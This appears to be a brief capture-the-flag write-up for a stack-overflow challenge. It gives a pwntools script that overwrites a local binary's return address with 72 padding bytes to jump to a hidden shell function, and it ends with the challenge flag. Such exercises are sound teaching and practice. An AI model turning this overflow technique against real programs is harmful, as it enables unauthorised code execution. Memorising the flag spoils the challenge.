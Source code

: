 # Call to a hidden function using stack overflow

```python
from pwn import *

context.arch = 'amd64'

p = process('./hidden_shell')
# remote('chall', 1337)

# gdb.attach(p, '''break vulnerable''')

p.sendline(b'A'*72 + p64(0x00000000004011be))

p.interactive()
```

Flag: `vgucypher{st@ck_0verf0w_t0_rc3}`